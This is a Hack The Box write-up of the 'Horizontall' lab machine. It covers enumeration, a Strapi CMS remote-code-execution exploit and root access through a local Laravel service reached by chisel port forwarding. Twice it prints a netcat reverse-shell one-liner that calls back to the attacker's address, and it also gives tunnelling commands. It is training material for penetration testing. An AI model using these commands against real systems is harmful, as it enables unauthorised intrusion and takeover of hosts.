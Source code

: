 ```yaml
---
title: "Horizontall Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/Horizontall/start.png"
tags: ["Hackthebox", "Port forwarding", "chisel"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-02-04T00:45:09+02:00
toc: true
draft: false
---
```


we got low-privilege access due to Vulnerable version of strapi CMS then got root access because of the Vulnerable Version of Laravel. main techniques used are : Vhost enumeration and port forwarding without ssh

<!--more-->

# Scanning :

to make our life easier will export ip to use the variable $IP instead of re-typing ip

```
$export IP=10.10.11.105
```

starting with a basic scanning :

```bash
$nmap -sV -v $IP -oN nmap/intial
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)

```

when try to visit http it can't be opened which is an indicator we will need to make Vhost enumeration Latter

![error](/assets/images/Horizontall/20210906143308.png)

so you need to add it to /etc/hosts

![error](/assets/images/Horizontall/20210906143207.png)

### directory Busting :

```bash
$ gobuster dir -u "http://horizontall.htb/" -w /usr/share/wordlists/dirb/common.txt
```

results :

```bash
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/favicon.ico          (Status: 200) [Size: 4286]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/index.html           (Status: 200) [Size: 901]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]

```

### Vhosts enumeration :

```bash
$ gobuster vhost -u horizontall.htb  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

you can also use ffuf like this :

```bash
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Horizontall.htb" -u http://horizontall.htb/ -c -fc 301
```

-fc : filter by code u don't want

```bash
results:
www                     [Status: 200, Size: 901, Words: 43, Lines: 2]
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20]
```

add api-prod to the /etc/hosts

![error](/assets/images/Horizontall/20210906150314.png)

## Foothold :

![error](/assets/images/Horizontall/20210906150257.png)

### Directory Busting :

```bash
$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://api-prod.horizontall.htb/FUZZ

```

results :

```bash
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```

![error](/assets/images/Horizontall/20210906150553.png)

searching for strapi exploit and found RCE exploit [here](https://www.exploit-db.com/raw/50239)

as we see it is a blind RCE we can verify it is valid By pinging our host :

![error](/assets/images/Horizontall/20210906152020.png)

so let's get our reverse shell :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 9999 >/tmp/f
```

### stablize the shell :

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

### we are in

![](/assets/images/Horizontall/20210906143208.png)

## Privilege escalation :

after some manual enumeration i tried to see what are the ports running on this machine with

```bash
ss -lpnut
```

and found this :

```
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port
tcp    LISTEN   0        128             127.0.0.1:8000          0.0.0.0:*
```

you can also run [LinEnum](https://github.com/rebootuser/LinEnum) and reach the same conclusion

this port wasn't in the nmap scan so it isn't publiclly exposed.

to verify this is a path we can take to look for an escalation Factor i tried to see what is the service running at this port :

![](/assets/images/Horizontall/20210906143218.png)

and at the bottom of the output i found :

```bash
Laravel v8 (PHP v7.4.18)
```

searching if it has an exploit and found many so we can now do **port forwarding** to see the web page at our browser and deal with it

## port forwading

we have many ways to achieve that i tried ssh remote port forwarding But it doesn't work , so i used [chisel](https://github.com/jpillora/chisel/releases)

- download version on your side and upload same version on the victim side

so what we are going to do here is port forward 8000 at this machine to 8000 at our machine and the traffic is through port 12312

> commands :

on server side (my side) :

`$./chisel_1.7.6_linux_amd64 server -p 12312 --reverse`

on victim side :

`$ ./chisel_1.7.6_linux_amd64 client <my_ip>:12312 R:8000:127.0.0.1:8000`

![error](/assets/images/Horizontall/20210906154327.png)

now as we said before this laravel version has exploits i used [this](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py) one

testing it :

![error](/assets/images/Horizontall/20210906154800.png)

so let's get a reverse shell Finally as root

```bash
python3 exploit.py "http://127.0.0.1:8000" Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 8888 >/tmp/f"
```

![error](/assets/images/Horizontall/20210906154921.png)

pwned on 5 september 2021 .
